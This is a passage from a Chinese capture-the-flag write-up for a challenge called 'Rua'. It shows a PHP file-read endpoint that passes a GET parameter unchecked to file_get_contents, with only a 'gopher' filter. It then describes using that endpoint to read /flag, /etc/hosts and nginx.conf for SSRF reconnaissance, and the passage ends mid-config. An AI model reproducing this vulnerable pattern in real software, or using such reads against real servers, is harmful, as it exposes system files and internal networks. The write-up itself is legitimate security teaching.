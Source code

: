 ```php
        if($msg)return $msg;
    }
    return 'success';
}
```



## 三、Rua

题目p.php执行phpinfo，file.php支持文件读取，利用file.php读file.php

```php
<?php
if(stripos($_GET['file'], "gopher") !== FALSE)
    die("no gopher, try to find another ssrf on this server!");
else
    echo file_get_contents($_GET['file']);
```

根据phpinfo allow_url_fopen=On，再结合gopher和file_get_contents，利用file_get_contents读/flag了解到这道题是考察ssrf

根据phpinfo获取网站目录，nginx配置目录并读取

1. 读/etc/hosts 得到内网ip和网段

```
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.2	ae0ad8408c36
```

2. nginx.conf 了解有http服务

```
user  root;
worker_processes  1;

#error_log  logs/error.log;
#error_log  logs/error.log  notice;
#error_log  logs/error.log  info;

#pid        logs/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;

    #log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
    #                  '$status $body_bytes_sent "$http_referer" '
    #                  '"$http_user_agent" "$http_x_forwarded_for"';

    #access_log  logs/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    #keepalive_timeout  0;
```